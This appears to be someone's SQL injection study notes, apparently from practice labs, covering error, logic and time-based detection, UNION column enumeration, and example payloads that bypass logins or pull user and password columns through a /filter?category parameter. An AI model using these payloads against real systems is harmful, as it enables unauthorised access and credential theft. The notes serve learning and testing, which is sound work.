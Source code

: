 # SQL Injection Notes

## Detection Techniques

1. **Simple Injection**: Use a single quote (`'`) to test for SQL errors.
2. **Adding Logic**: Inject logic after a single quote, e.g., `' AND 1=1--` or `'--`.
3. **Time-Based Attacks**: Observe response times to detect delays caused by SQL queries.
4. **OAST (Out-of-Band Application Security Testing)**: Utilize external interactions to detect vulnerabilities.

---

## Union-Based Attacks

### Key Considerations
- The number and type of columns in the `UNION` query must match the original query.

### Determining the Number of Columns
1. Use `' ORDER BY 1--` and increment numbers until you see an "out of index" error.
   - Note: Index starts from 1.
2. Use `' UNION SELECT NULL--`:
   - If there’s a mismatch, an error is returned.
   - If there’s no mismatch, NULL values will populate the rows.

#### Example Queries
- `' ORDER BY 1--`: Returns an error if the number exceeds available rows.
- `' UNION SELECT NULL,NULL,NULL--`: Returns an additional row with NULL values if columns match.

---

## Tricks and Examples

### Basic Bypasses
- Example 1: `administrator' OR 1=1--`
- Example 2: `' UNION SELECT USER,PASS FROM users--`
- Example 3: `' UNION SELECT NULL,USER || PASS FROM users--`

### Practical Attacks
- `/filter?category=P'UNION SELECT NULL,password_mwoxri FROM users_iktcia--`
- `/filter?category=P'UNION SELECT NULL,TABLE_NAME FROM information_schema.columns WHERE COLUMN_NAME = 'rolbypassrls'--`

### Column Concatenation
- If only one column is a string, concatenate values:
  - Example: `' UNION SELECT NULL,USER || PASS FROM users--`

---

## Blind SQL Injection

### Example
- Tracking ID Example:

---

## Tips and Lessons

1. **Database-Specific Quirks**:
 - **Oracle**: Always requires a `FROM` clause in `SELECT`.
 - **MySQL**: Use `%20` for spaces after comments.
2. **Query Structure**:
 - After `SELECT`: Always a column name.
 - After `FROM`: Always a table name.
 - Example: `WHERE column_name = something`.

3. **Key Observations**:
 - Spaces and syntax quirks significantly affect results.
 - Always verify queries with a condition like `column_name = value` to confirm accuracy.

---

## Hard Lesson Learned
- After two hours of testing: 
- Syntax and spacing quirks can dramatically influence results.
- Without a proper comparison (e.g., `letter = value`), conclusions are unreliable.
